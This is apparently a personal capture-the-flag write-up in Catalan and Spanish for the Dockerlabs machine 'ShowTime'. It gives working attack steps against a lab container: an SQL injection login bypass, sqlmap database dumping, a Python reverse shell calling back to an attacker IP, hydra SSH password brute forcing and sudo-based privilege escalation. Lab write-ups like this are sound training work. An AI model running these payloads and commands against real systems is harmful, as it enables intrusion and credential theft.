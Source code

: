 # ShowTime

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:44

# Reconocimiento

> NMAP
> 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 47.png>)

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![image.png](<imagenes/image 48.png>)

Ports:

**22** SSH: Open SSH 9.61
**80** http: Apache 2.4.58

> FUZZING
> 

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u [http://172.17.0.2/](http://172.17.0.2/) -x html,php,php7,txt,py
```

![image.png](<imagenes/image 49.png>)

Trobem /login_page/

# Análisis de vulnerabilidades

> Web Analisis
> 

![image.png](<imagenes/image 50.png>)

Probem les SQL Injection:

Usuario: ' OR 1=1--
Password: 1234

![image.png](<imagenes/image 51.png>)

# Explotación de vulnerabilidades

> SQLMAP
> 

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch

- `u "<http://172.17.0.2/login_page/index.php>"`:
    - Esta opción especifica la URL del objetivo que sqlmap va a analizar, en este caso, la página `index.php` ubicada en `http://172.17.0.2/login_page/`.
- `-forms`:
    - Esta opción indica a `sqlmap` que debe analizar todos los formularios presentes en la página web. Los formularios pueden contener campos de entrada que podrían ser vulnerables a inyecciones SQL. `sqlmap` detectará estos formularios, los rellenará con datos potencialmente maliciosos, y probará si son susceptibles a una inyección SQL.
- `batch`:
    - Esta opción le dice a `sqlmap` que ejecute en modo no interactivo, es decir, sin solicitar confirmaciones del usuario durante la ejecución. Esto es útil para automatizar la tarea y evitar que `sqlmap` pregunte sobre cada paso que normalmente requeriría confirmación (como si quieres seguir adelante con una inyección peligrosa o explorar bases de datos después de descubrir una vulnerabilidad).
```

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch --dbs
	
	- `dbs`:Per a veure les bases de dades
```

![image.png](<imagenes/image 52.png>)

```bash
 sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch -D users --tables
  -`D`:
  -`tables`:Per a veure les taules e la BS users
```

![image.png](<imagenes/image 53.png>)

```bash
sqlmap -u "[http://172.17.0.2/login_page/index.php](http://172.17.0.2/login_page/index.php)" --forms --batch -D users -T usuarios --dump
 - `T`:
-`dump`: Per a volcar el contingut de la taula usuarios
```

![image.png](<imagenes/image 54.png>)

Entrem a la web amb els 3 i el que es difrente es el usuari "joe"

![image.png](<imagenes/image 55.png>)

Busquem com executar una revershell en python:

```r
import socket
import subprocess
import os

# Dirección IP del atacante (listener)
ATTACKER_IP = "IP_NOSTRE"
# Puerto en el que el atacante está escuchando
ATTACKER_PORT = 4444

# Crear un socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectarse al servidor de la máquina atacante
s.connect((ATTACKER_IP, ATTACKER_PORT))

# Redirigir la entrada y salida estándar
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Ejecutar un shell
subprocess.call(["/bin/sh", "-i"])

```

Ens posem en escolta :

```bash
sudo nc -lvnp 4444
```

Tenim la Rever shell:

![image.png](<imagenes/image 56.png>)

Tractament TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

> usuari :www-data
> 

![image.png](<imagenes/image 57.png>)

Provem a escalar privilegis:

```bash
sudo -l : no funciona, ens demana password
```

```bash
find / -perm -u=s -type f 2>/dev/null:
```

![image.png](<imagenes/image 58.png>)

Al no trobar res, mirem altres usuaris:

![image.png](<imagenes/image 59.png>)

Busquem fitxers a l'equip i trobem a la carpeta /tmp

![image.png](<imagenes/image 60.png>)

Obrirm .hidden_text.txt

![image.png](<imagenes/image 61.png>)

Com tenim diferents usuaris (joe, luciano) provem a buscar amb hydra el password d'aquest utilitzant aquesta llista com a diccionari:

```bash
john --wordlist=passwords.txt --rules --stdout > wordlist_variada.txt
```

Copiem el llistat al fitxer "pass.txt" i el passem amb el john a passVariado

```bash
 john --wordlist=pass.txt --rules --stdout >passVariado.txt
```

I amb Hydra:

```bash
hydra -l joe -P passVariado.txt 172.17.0.2 ssh -Vv
```

Resultat:

![image.png](<imagenes/image 62.png>)

Usuari: joe
Password: chittychittybangbang

Ara , dins de la maquina, canviem a usuari jo

```bash
su joe
```

![image.png](<imagenes/image 63.png>)

Mirem com podem escalar privilegis amb usuari "Joe"

```bash
Sudo -l
```

Podem executar posh sense password com a luciano:

```
sudo -u luciano /bin/posh
```

![image.png](<imagenes/image 64.png>)

Ara som usuari luciano

busquem permisos:

```bash
sudo -l
```

Veiem que el script te permisos de escriptura

```bash
ls -l
-rw-rw-r-- 1 luciano luciano  122 Aug 21 17:11 script.sh

```

Modifiquem el script:

```bash
echo "/bin/bash" >> script.sh
sudo /bin/bash /home/luciano/script.sh
```

Esperem perque el script porta un deleyy i despres:

![image.png](<imagenes/image 65.png>)